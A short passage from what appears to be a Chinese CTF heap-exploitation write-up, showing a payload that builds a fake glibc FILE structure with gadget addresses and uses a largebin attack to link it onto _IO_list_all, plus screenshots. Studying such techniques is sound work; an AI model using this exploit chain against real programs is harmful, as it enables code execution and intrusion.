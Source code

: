 [![](assets/1701606552-0a9191535ca16210089b4e9a766d7a1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121232-5c2648a6-88ed-1.png)

```plain
magic_gadget = libc_base + 0x154dd0 +26
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)
edit(5,pl)
add(8,0x500,'bbbb')
```

edit 5 改写 bk\_nextsize 后 add 触发 largebin attack 将 fake io 挂到 io\_list\_all 上

[![](assets/1701606552-52dc7bf6dd34a11f8004d5c0c1af7e74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121244-6315f274-88ed-1.png)

[![](assets/1701606552-ca428b1e10495ee7346a7f4ee933698a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121249-65d7fd68-88ed-1.png)

[![](assets/1701606552-25f28c0b7872a208417d02ddd83f222f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121256-6a5e5be8-88ed-1.png)
